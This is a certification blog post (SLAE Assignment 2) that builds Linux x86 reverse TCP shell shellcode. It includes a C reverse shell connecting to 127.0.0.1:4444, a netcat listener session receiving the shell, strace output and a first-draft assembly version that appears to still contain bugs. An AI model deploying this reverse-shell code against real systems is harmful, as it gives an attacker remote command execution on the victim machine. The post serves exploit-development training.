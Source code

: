 * Assignment 2

This blog post has been created for completing the requirements fo the SecurityTube
Linux Assembly Expert certification:
[[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert][http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert]]

Student ID: SLAE-824

** Requirements

- Create a Shell Reverse TCP shellcode
  - Reverse connects to configured IP and PORT
  - Execs Shell on successful connection
- IP and Port should be easily configurable

** Strategy

My approach to building a tcp reverse shell shellcode will be to:

- Build off of our TCP bind shell developed in [[http://www.brettlischalk.com/posts/18-slae-problem-1-tcp-bind-shell-shellcode][Assignment 1]] of the SLAE
- Modify the C program to call ~connect~ instead of ~bind~, ~listen~, and ~accept~
- Analyze the C program system calls to see how the program interacts with the kernel to accomplish its tasks
- Lookup the system calls and see what arguments and structures they take
- Attempt to write some assembly that calls the same system calls in the same order with the same arguments as the C program does
- Debug issues as of course there will be :)


** The Source Code

The source code and tools referenced in this article can be found here:

** The C progam

#+NAME: reversetcpshell.c
#+BEGIN_SRC c
#include <stdio.h>
#include <netinet/in.h>
#define PORT 4444

int main(int argc, char **argv) {
  // Create a socket
  int lsock = socket(AF_INET, SOCK_STREAM, 0);

  // Setup servr side config struct
  // We configure:
  // The family:IPv4
  // The interface: 127.0.0.1 (Loopback)
  // The port: port#
  struct sockaddr_in config;
  config.sin_family = AF_INET;
  config.sin_addr.s_addr = inet_addr("127.0.0.1");
  // The htons() function converts the
  // unsigned short integer hostshort from host byte
  // order to network byte order.
  config.sin_port = htons(PORT);

  // Redirect stdin, stdout, and stderror
  dup2(lsock, 0);
  dup2(lsock, 1);
  dup2(lsock, 2);

  // Connect to listening server
  int csock = connect(lsock, (struct sockaddr *) &config, sizeof(config));

  // Execute a shell
  execve("/bin/sh", NULL, NULL);
};

#+END_SRC

** Analysis of the C progam

Let's compile our program with ~gcc reversetcpshell.c -o reversetcpshell~.
Next, lets start Netcat listening for a connection using ~nc -nlvp 4444~.
Now that we have Netcat waiting for a connection we can go ahead and
execute our reversetcpshell with ~./reversetcpshell~. If we look over
at our Netcat terminal we will see that we have a received a connection
and been presented with a shell!

#+BEGIN_SRC sh
root@blahblah:~/shared/SLAE/slae/exercise2# nc -nlvp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 37260
ls
README.org
reversetcpshell
reversetcpshell.c
#+END_SRC

Once again, if we use ~strace ./reversetcpshell~ when starting the reverse
shell we can see the system calls being made:

#+BEGIN_SRC sh
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
dup2(3, 0)                              = 0
dup2(3, 1)                              = 1
dup2(3, 2)                              = 2
connect(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("127.0.0.1")}, 16) = 0
execve("/bin/sh", [0], [/* 0 vars */])  = 0
#+END_SRC

Interestingly, our c program is shorter and the amount of system calls
that we need seems to have decreased. It seems as though our reverse
tcp shellcode could be as basic as using ~socket, dup2, connect, and execve~.
Essentially we can not worry about ~bind, listen, or accept~ and just need
to learn about 1 system call we haven't used before: ~connect~.

Ok, what can we lear about connect?


#+BEGIN_SRC c
int connect(int socket, const struct sockaddr *address, socklen_t address_len);
#+END_SRC

If we remember the function signature of bind:

#+BEGIN_SRC c
int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
#+END_SRC

We see that they are exactly the same! The only difference is that when
we define the sockaddr structure that we want to specify the IP of the
machine that we want to connect back to instead of the 0.0.0.0 IP we
specified in our bindshell.

Cool! Lets write some assembly...

** Assembly: Take 1

If we remember from making our research when creating our bindshell,
the system call for ~SYS_CONNECT~ was:

#+NAME: net.h
#+BEGIN_SRC C
#define SYS_CONNECT 3   /* sys_connect(2)   */
#+END_SRC

So in theory, if we modify our assembly to call 3 install of 2 e.g
connect instead of bind, remove unnecessary system calls, and make
sure that we redirect stdin,stdout,and stderror before making our
connection we should be in good shape. Lets give that a go:

#+Name: reverseshellasm.asm
#+BEGIN_SRC asm
global _start
;; Note: We will store 2 file descriptors along the way
;; We will put the listening socket file descriptor in edi
;; We will put the connection socket file descriptor in ebx

section .text
  _start:
    ;; Create a socket
    ;; int socketcall(int call, unsigned long *args);
    ;; int socket(int domain, int type, int protocol);
    ;; #define SYS_SOCKET	1		/* sys_socket(2)		*/
    ;; Use socketcall to call down to socket
    xor eax, eax
    mov al, 0x66 ; socketcall syscall
    xor ebx, ebx
    mov bl, 0x1 ; sys_socket syscall number

    ;; Put the socket() args on the stack
    xor ecx, ecx
    ;; loop back addr is 127.0.0.1
    ;; this translates to 0x0100007f
    ;; we don't want to have null bytes 0x00
    ;; so we add 0x01010101 to our address
    ;; move it into a register
    ;; and then subtract
    mov ecx, 0x02010180 ; 0x0100007f
    sub ecx, 0x01010101
    push ecx ; inet_addr("127.0.0.1) = 0x0100007f
    push ebx ; sock_stream is the type of socket 1
    push 0x2 ; protocol af_inet is the ip protocol 2

    mov ecx, esp ; save pointer to args for the socket() call
    int 0x80 ; call sys_socket

    ; save the returned listening socket file descriptor
    xor edi, edi
    mov edi, eax

    ;; call dup2 for stdin, stdout, and stderr in a loop
    xor ecx, ecx
    mov cl, 0x2 ;loop counter
  dup2:
    mov al, 0x3f ;dup2
    int 0x80
    dec ecx
    jns dup2

    ;; Connect on the socket
    xor eax, eax
    mov al, 0x66 ; socketcall syscall
    xor ebx, ebx
    mov bl, 0x3 ; sys_connect syscall number

    ;; Start building the sockaddr_in structure
    ;; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
    ;; sin_addr= inet_addr("127.0.0.1) = 0x0100007f
    ;; perform our ip address gymnastics again
    xor ecx, ecx
    mov ecx, 0x02010180 ; 0x0100007f
    sub ecx, 0x01010101
    push ecx ; inet_addr("127.0.0.1) = 0x0100007f

    ;; 4444 is 0x115c in little endian. Network byte order is
    ;; Big endian so we swap the byte ordering
    push word 0x5c11 ; sin_port=4444 (network byte order)
    push word bx     ; sin_family=AF_INET (0x2)
    mov ecx, esp     ; move pointer to sockaddr_in structure

    ;; In the initial code we use sizeof to derive the addrlen
    ;; If we print the results of that we get 0x10 which is 16 bytes
    push 0x10 ;addrlen=16
    push ecx  ;struct sockaddr pointer
    push edi  ;sockfd
    mov ecx, esp ;save pointer to bind() args
    int 0x80 ; call sys_connect

    ;; Call execve
    xor eax, eax
    mov al, 0xb ;execve
    xor ebx, ebx
    push ebx
    push 0x68732f2f ;"sh//"
    push 0x6e69622f ;"nib/"
    mov ebx, esp
    xor ecx, ecx
    xor edx, edx
    int 0x80
#+END_SRC

